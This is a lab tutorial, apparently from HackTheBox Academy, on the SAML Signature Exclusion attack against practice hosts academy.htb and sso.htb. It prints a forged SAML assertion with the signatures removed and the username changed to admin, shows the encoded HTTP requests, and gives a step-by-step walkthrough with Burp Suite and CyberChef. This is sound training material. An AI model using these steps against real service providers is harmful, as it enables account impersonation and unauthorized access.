 # Signature Exclusion Attack

Signature Exclusion is an attack that manipulates the SAML response by removing the signature. If a service provider is misconfigured only to verify the signature if one is present and defaults to accepting the SAML response, removing the signature enables an attacker to manipulate the SAML response to impersonate other users.

## Signature Verification

After a successful authentication with our account, the application displays some user information about our profile:

```
http://academy.htb/acs.php
Welcome screen displaying user details: Name "htb-stdnt," Email "student@academy.htb," User ID "1234." Message: "Welcome to HackTheBox Academy!"
```

As seen in the previous section, the authentication information is taken from the signed SAML assertion. Further data can then be retrieved from a database, such as the message for our user.

If we want to impersonate a different user, we need to change the values in the SAML assertion used by the web application for authentication.

To obtain the XML SAML response, we need to URL-decode and Base64-decode the data from the response, revealing the data we have seen in the previous section. Let us attempt to impersonate the admin user by manipulating the SAML assertion. The valid assertion contains the following username:

```xml
<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
	<saml:AttributeValue xsi:type="xs:string">htb-stdnt</saml:AttributeValue>
</saml:Attribute>
```

We can simply manipulate the username by changing `htb-stdnt` to `admin`:

```xml
<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
	<saml:AttributeValue xsi:type="xs:string">admin</saml:AttributeValue>
</saml:Attribute>
```

Afterward, we need to Base64-encode and then URL-encode the entire SAML response. We can then replace the valid SAML Response, resulting in the following request:

```http
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 8811
Content-Type: application/x-www-form-urlencoded

SAMLResponse=PHNhb[...]%3d&RelayState=%2Facs.php
```

However, since our manipulation invalidates the signature, it is not accepted by the web application:

`POST request to academy.htb for /acs.php with SAMLResponse. Response is HTTP 302 Found, redirecting to /index.php with message "Invalid SAML Response. Not Authenticated."`

## Signature Exclusion

If a web application is severely misconfigured, it may skip the signature verification entirely if the SAML response does not contain a signature XML element. This would enable us to manipulate the SAML response arbitrarily.

To test this, we need to obtain the XML representation of the SAML response, as discussed before. This can be done by intercepting the request with Burp Suite, sending it to Repeater, and then using CyberChef to URL-decode and Base64-decode the SAMLResponse. The CyberChef recipe should be: `URL Decode` then `From Base64`.

Next, we manipulate the SAML assertion, changing the username from `htb-stdnt` to `admin`. To conduct the signature exclusion, we must remove all signatures from the SAML response, which are the `ds:Signature` XML elements. Multiple signatures may be present in a single SAML response, depending on what exactly is signed. After removing all signature elements, we are left with the following SAML response (example with `admin` user):

```xml
<samlp:Response
	xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
	xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ID="_d821fe97fd0710b1df434c5fff579972d67d1cd358" Version="2.0" IssueInstant="2024-03-29T17:44:58Z" Destination="http://academy.htb/acs.php" InResponseTo="ONELOGIN_96a488ebd22db24ee7e884a21add7b8829771e9a">
	<saml:Issuer>http://sso.htb/simplesaml/saml2/idp/metadata.php</saml:Issuer>
	<samlp:Status>
		<samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
	</samlp:Status>
	<saml:Assertion
		xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
		xmlns:xs="http://www.w3.org/2001/XMLSchema" ID="_1cdba427a3574890ffd9124728527fe5823c2976ac" Version="2.0" IssueInstant="2024-03-29T17:44:58Z">
	<saml:Issuer>http://sso.htb/simplesaml/saml2/idp/metadata.php</saml:Issuer>
		<saml:Subject>
			<saml:NameID SPNameQualifier="http://academy.htb/" Format="urn:oasis:names:tc:SAML:2.0:nameid-format:transient">_a79f33ac54f4d59d65506d5185ec675478b625cd6a</saml:NameID>
			<saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
				<saml:SubjectConfirmationData NotOnOrAfter="2024-03-29T17:49:58Z" Recipient="http://academy.htb/acs.php" InResponseTo="ONELOGIN_96a488ebd22db24ee7e884a21add7b8829771e9a"/>
			</saml:SubjectConfirmation>
		</saml:Subject>
		<saml:Conditions NotBefore="2024-03-29T17:44:28Z" NotOnOrAfter="2024-03-29T17:49:58Z">
			<saml:AudienceRestriction>
				<saml:Audience>http://academy.htb/</saml:Audience>
			</saml:AudienceRestriction>
		</saml:Conditions>
		<saml:AuthnStatement AuthnInstant="2024-03-29T17:44:58Z" SessionNotOnOrAfter="2024-03-30T01:44:58Z" SessionIndex="_c4bb9dc9110c30e62a090e1b60489276db4801b96f">
			<saml:AuthnContext><saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
			</saml:AuthnContext>
		</saml:AuthnStatement>
		<saml:AttributeStatement>
			<saml:Attribute Name="id" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
				<saml:AttributeValue xsi:type="xs:string">1337</saml:AttributeValue>
			</saml:Attribute>
			<saml:Attribute Name="name" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
				<saml:AttributeValue xsi:type="xs:string">admin</saml:AttributeValue>
			</saml:Attribute>
			<saml:Attribute Name="email" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
				<saml:AttributeValue xsi:type="xs:string">admin@academy.htb</saml:AttributeValue>
			</saml:Attribute>
		</saml:AttributeStatement>
	</saml:Assertion>
</samlp:Response>
```

Just like before, we need to encode the data properly before sending it in the following request. Using CyberChef, the recipe should be `To Base64` then `URL Encode (Full)`.

```http
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 3285
Content-Type: application/x-www-form-urlencoded

SAMLResponse=PHNhbW[...]%2b&RelayState=%2Facs.php
```

The web application successfully accepts our manipulated SAML response and authenticates us as the admin user.

To perform the attack:
1.  Add `academy.htb` and `sso.htb` to your `/etc/hosts` file.
2.  Navigate to `academy.htb` and log in with valid credentials (e.g., `htb-stdnt:AcademyStudent!`).
3.  Refresh the page, intercept the request with Burp Suite, and send it to Repeater.
4.  In Repeater, URL-decode and then Base64-decode the `SAMLResponse` parameter using CyberChef (recipe: `URL Decode` -> `From Base64`).
5.  Remove the `<ds:Signature>` XML elements and change the `name` attribute value to `admin`.
6.  Base64-encode and then URL-encode the modified XML data using CyberChef (recipe: `To Base64` -> `URL Encode (Full)`).
7.  Replace the `SAMLResponse` in Burp Repeater with the newly encoded data and forward the request.
8.  You should now be authenticated as the `admin` user.


